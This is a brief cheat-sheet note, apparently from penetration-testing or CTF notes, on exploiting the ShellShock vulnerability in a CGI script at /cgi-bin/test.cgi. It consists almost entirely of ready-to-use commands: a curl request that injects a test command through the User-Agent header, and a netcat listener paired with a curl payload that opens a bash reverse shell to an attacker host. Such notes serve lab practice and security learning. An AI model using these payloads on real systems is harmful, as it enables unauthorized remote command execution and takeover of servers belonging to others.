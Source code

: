 - This cve (ShellShock) allows us to inject commands to the `/cgi-bin/test.cgi` directory
- Example of command:

```shell
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://IP_HOST/cgi-bin/test.cgi
```

- [More info](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

- Get a reverse shell:

```shell
# On your machine start a listener
nc -nlvp PORT
# Then send a request for the shell
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/IP_ATTACK/PORT 0>&1" http://IP_HOST/cgi-bin/test.cgi
```